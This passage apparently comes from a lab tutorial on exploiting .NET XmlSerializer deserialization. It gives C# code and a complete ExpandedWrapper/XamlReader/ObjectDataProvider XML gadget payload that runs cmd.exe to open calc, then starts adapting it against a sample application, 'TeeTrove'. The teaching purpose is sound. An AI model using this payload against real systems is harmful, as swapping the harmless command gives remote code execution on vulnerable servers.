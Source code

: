 ```csharp
MemoryStream ms = new MemoryStream();
XmlSerializer xmlSerializer = new XmlSerializer(expWrap.GetType());
xmlSerializer.Serialize(ms, expWrap);
Console.WriteLine(Encoding.ASCII.GetString(ms.ToArray()));

```

Run the program one more time, and we should get a `serialized XML` output in addition to a calculator popping up on our screens.

```xml
<?xml version="1.0"?>
<ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <ProjectedProperty0>
    <ObjectInstance xsi:type="XamlReader" />
    <MethodName>Parse</MethodName>
    <MethodParameters>
      <anyType xsi:type="xsd:string">&lt;ObjectDataProvider MethodName="Start" xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:sd="clr-namespace:System.Diagnostics;assembly=System" xmlns:sc="clr-namespace:System.Collections;assembly=mscorlib" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"&gt;&lt;ObjectDataProvider.ObjectInstance&gt;&lt;sd:Process&gt;&lt;sd:Process.StartInfo&gt;&lt;sd:ProcessStartInfo Arguments="/c calc" StandardErrorEncoding="{x:Null}" StandardOutputEncoding="{x:Null}" UserName="" Password="{x:Null}" Domain="" LoadUserProfile="False" FileName="C:\Windows\System32\cmd.exe"&gt;&lt;/sd:ProcessStartInfo&gt;&lt;/sd:Process.StartInfo&gt;&lt;/sd:Process&gt;&lt;/ObjectDataProvider.ObjectInstance&gt;&lt;/ObjectDataProvider&gt;</anyType>
    </MethodParameters>
  </ProjectedProperty0>
</ExpandedWrapperOfXamlReaderObjectDataProvider>

```

Finally, we have a payload for `XmlSerializer` which should work. We can comment everything out once again and add the following lines to the end of the program to verify that it works:

```csharp
string payload = "<?xml version=\"1.0\"?><ExpandedWrapperOfXamlReaderObjectDataProvider <SNIP>";
XmlSerializer xmlSerializer = new XmlSerializer(new ExpandedWrapper<XamlReader, ObjectDataProvider>().GetType());
xmlSerializer.Deserialize(new MemoryStream(Encoding.ASCII.GetBytes(payload)));

```

With any luck, the calculator should spawn and we should now have a verified payload that we can adapt to work with `TeeTrove`.

![image](IMcGP0JTj1Pc.png)

## Exploiting TeeTrove

So let's adapt the payload to work with `TeeTrove`, spawning `notepad.exe` again instead of the calculator by changing the values of `Arguments` and `FileName`. If you remember from earlier in the section, we can control (need to control) the type string which is used when initializing `XmlSerializer`. The intended value is `TeeTrove.Models.Tee`, but we need to set it to the string equivalent of `new ExpandedWrapper<XamlReader, ObjectDataProvider>().GetType()` so that our payload will be deserialized correctly. We can comment out all previous code lines in our program and add the following line:
